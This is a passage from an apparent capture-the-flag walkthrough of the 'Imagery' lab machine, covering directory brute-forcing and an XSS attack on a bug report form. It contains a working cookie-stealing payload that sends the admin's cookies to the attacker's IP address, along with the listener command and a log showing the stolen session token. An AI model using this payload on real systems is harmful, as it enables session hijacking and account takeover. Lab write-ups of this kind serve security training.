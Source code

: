 Navigate to `http://imagery.htb:8000/` and explore the web application.

#### Directory Brute-forcing

```bash
feroxbuster -u http://imagery.htb:8000 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -t 50
```

**Key Findings:**
- Image upload functionality
- User registration/login system
- Admin panel (restricted access)
- Bug report feature

---

## Initial Access

### Step 1: Account Registration

Navigate to the registration page and create a new user account. After logging in, you'll notice:
- You can upload images
- Image transformation features are restricted
- There's a "Report Bug" functionality

### Step 2: XSS Attack - Cookie Stealing

The bug report feature is vulnerable to **Cross-Site Scripting (XSS)**. We can exploit this to steal the admin's session cookies.

**Set up a listener to capture cookies:**

```bash
python3 -m http.server 80
```

**Submit the following XSS payload in the bug report form:**

```html
<img src=1 onerror="document.location='http://10.10.14.74/steal?c='+ document.cookie">
```

**What happens:**
1. Admin views the bug report
2. The malicious JavaScript executes in their browser
3. Their cookies are sent to your HTTP server
4. You capture the admin session cookie

**Monitor your HTTP server logs:**

```bash
10.10.11.88 - - [30/Sep/2025 08:15:32] "GET /steal?c=session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJfaWQiOjF9... HTTP/1.1" 200 -
```
